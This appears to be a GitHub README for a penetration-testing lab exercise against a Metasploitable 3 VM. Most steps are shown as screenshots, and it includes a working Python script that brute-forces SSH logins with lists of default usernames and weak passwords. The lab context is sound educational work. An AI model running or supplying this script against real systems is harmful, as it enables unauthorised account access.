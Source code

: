 # Phase1:
# Downloading and Importing Metasploitable 3 VM (the Victim environment):
![Screenshot 2025-04-26 194716](https://github.com/user-attachments/assets/6eb215a9-2c85-42b9-87cc-88133d73b8c1)

# Checking the connectivity between the attacker(kali) and the victim:
![Screenshot 2025-04-27 211734](https://github.com/user-attachments/assets/496e6b54-4a39-47a7-9e20-faae575623e2)
![Screenshot 2025-04-27 212646](https://github.com/user-attachments/assets/5e052f8c-2ace-4b61-b039-d71a933f0834)

# Setting up metasploit framework in the kali VM:
![Screenshot 2025-04-27 191041](https://github.com/user-attachments/assets/7015f966-f7bb-4857-9a44-9d6ca4e8ebaa)
 
# Task1.1: 
We choosed SSH service to compromise.

![Screenshot 2025-04-27 204845](https://github.com/user-attachments/assets/bd3a3157-6bf5-471f-a9cc-2b5f0985d337)

# Task1.2: Custom script for compromising the SSH service :
import paramiko

#Target Information  

target_ip = "192.168.8.36"

target_port = 22

#List of username/password combinations to try

usernames = ["vagrant", "user", "root", "msfadmin"]

passwords = ["vagrant", "user", "toor", "msfadmin", "1234", "password"]

#Setup the SSH client

ssh_client = paramiko.SSHClient()

ssh_client.set_missing_host_key_policy(paramiko.AutoAddPolicy())

#Try all combinations

for username in usernames:

    for password in passwords:
    
        try:
        
            print(f"[*] Trying {username}:{password}")
            
            ssh_client.connect(hostname=target_ip, port=target_port, username=username, password=password, timeout=5)
            
            print(f"[+] Success! Credentials found: {username}:{password}")
            
            ssh_client.close()
            
            exit()
            
        except paramiko.AuthenticationException:
        
            print(f"[-] Failed login: {username}:{password}")
            
        except Exception as e:
        
            print(f"[!] Connection error: {e}")

print("[-] No valid credentials found.")

Proof of Concept:
![Screenshot 2025-04-27 211639](https://github.com/user-attachments/assets/beadd480-2105-4c11-838e-b32617b01b86)


